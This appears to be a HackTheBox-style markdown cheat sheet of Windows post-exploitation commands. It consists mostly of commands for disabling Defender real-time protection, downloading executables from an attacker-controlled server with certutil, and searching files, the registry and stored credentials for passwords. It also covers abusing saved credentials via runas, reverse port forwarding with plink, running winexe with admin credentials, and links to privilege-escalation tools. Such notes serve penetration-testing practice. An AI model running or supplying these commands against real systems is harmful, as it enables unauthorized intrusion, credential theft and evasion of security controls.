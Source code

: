 ### Powershell 
![powershell](https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/powershell.png)
#### Get to know the current user, which you are logged in 

```powershell
# system_name\user_name
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name

# user name & system name
$env:UserName
$env:UserDomain

# find exe's in the current directory
# -erroraction 'silentlycontinue' similar to 2>/dev/null
Get-ChildItem -Filter "*.exe" -Recurse -erroraction 'silentlycontinue' 
```

#### Disable RealTimeProtection

```powershell
#disables real time protection
Set-MpPreference -DisableRealtimeMonitoring $true

#enables real time protection
Set-MpPreference -DisableRealtimeMonitoring $false
```

### CMD Commands

#### Normal CMD

```powershell
# get current username
whoami

# get system information
systeminfo

# wget for windows
certutil -urlcache -f http://iamserver:port/xxxx.exe xxxx.exe

# grep() for os name
systeminfo | findstr /C:"OS Name"

# locate() for files
findstr /si password *.txt *.ini *.config *.xml *.bat

# locate *.exe's
dir /s /b *.exe
where *.exe

# get the hostname
hostname

# know the priviledges we have
# token impresonate attacks can be donw with this privs
whoami /priv

# know all the users in the machine
net user 

# Obtain information about the specific user
net user <username>

# Obtain users belongs to a specific groups
# users belonging to the sudo groups
net localgroup administrators / <group name>

# get to know network
ipconfig
ipconfig /all

# internal network services
netstat -ano 

# get to know antivirus
sc query windefend	#know about windows defender status (up / down)
sc queryex type= service #brings all the running services in the machine

# get to know about the firewall 
netsh show firewall state

# Search for passwords in registry
reg query HKLM /f password /t REG_SZ /s

# port forward using plink.exe -l user -pw password for the user 
plink -l root -pw <pass> -R PORT:127.0.0.1:PORT 10.10.x.x

# search for binaries in the machine, like whereis in linux
# rn searching for powershell.exe in C:\Window\System32
where /R C:\windows\System32 powershell.exe

# look for stored credentials in the machine
cmdkey /list 

# run as commands, when the creds for the user is stored which can be confirmed with cmdkey /list
runas.exe /user:domain\UserName /savecred "C:\Windows\System32\cmd.exe /c Type C:\Users\UserName\Desktop\(user|root).txt > C:\Users\lowUser\root.txt"


```

#### CMD commands when wmic is available

```powershell
# updation list
wmic qfc get Caption,Description,HotFixID,InstalledOn

# list disks with wmic
wmic logicaldisk get caption,description,providenBane

```

#### When Port forwarding:

- In the linux machine

```bash
# check ssh installation
sudo apt install ssh
# for a normal user, the ssh login will be smooth 
# for a root user, edit the sshd.config
# change from #PermitRootLogin prohibit-password -> PermitRootLogin yes
vi /etc/ssh/sshd_config
# start the ssh service
sudo service ssh start
# check the port forwarded service
netstat -ano
# after forwading the port, if user creds are available try winexe, 127.0.0.1 is given since the particular port is forwarded to out local machine
winexe -U Administrator%<pass> //127.0.0.1 "cmd.exe"

```

#### Resource

##### \*.exe

- [winPEAS.exe]("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS")
- [Seatbelt.exe]("https://github.com/GhostPack/Seatbelt")
- [Watson.exe]("https://github.com/rasta-mouse/Watson")
- [SharpUp.exe]("https://github.com/GhostPack/SharpUp")

##### \*.ps1

- [Sherlock.ps1]("https://github.com/rasta-mouse/Sherlock")
- [PowerUp.ps1]("https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp")
- [Jaws-enum.ps1]("https://github.com/411Hall/JAWS")
- [PowerUp.ps1]("https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1")

##### Misc

- [Windows-exploit-suggester.py]("https://github.com/AonCyberLabs/Windows-Exploit-Suggester")
- [Windows-Kernal-exploits]("https://github.com/SecWiki/windows-kernal-exploits")
- [CVE's]("https://github.com/nomi-sec/PoC-in-GitHub")
- [winexe]("https://tools.kali.org/maintaining-access/winexe")
- [PsExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py")
- [SmbExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py")
- [WmiExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py")
- [Impersonate PrivEsc]("https://github.com/gtworek/Priv2Admin")


